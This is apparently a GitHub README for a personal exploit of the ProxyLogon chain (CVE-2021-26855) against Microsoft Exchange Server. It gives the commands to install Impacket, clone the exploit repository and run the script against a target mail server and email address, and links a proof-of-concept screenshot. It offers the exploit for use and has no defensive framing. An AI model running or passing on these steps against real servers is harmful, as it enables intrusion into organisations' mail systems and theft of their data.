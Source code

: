 # proxylogon
my exploit for the proxylogon chain (Microsoft Exchange Server - CVE-2021-26855)   
# Run:
the exploit uses Impacket package, to install it run this:
```
user@host:~$ python3 -m pip install impacket
```
then clone the exploit repo, and enter the exploit directory:
```
user@host:~$ git clone https://github.com/hakivvi/proxylogon.git && cd proxylogon
```
run the exploit:
```
user@host:~$ python3 proxylogon.py http://mail.corp.com email@corp.com
```
PoC:

[![PoC](/PoC.jpg)](https://twitter.com/hakivvi/status/1370918015945084928)



~~**this repo will remain private until DEVCORE or Microsorft releases the exploit details to the public**~~ **i think they won't :P**
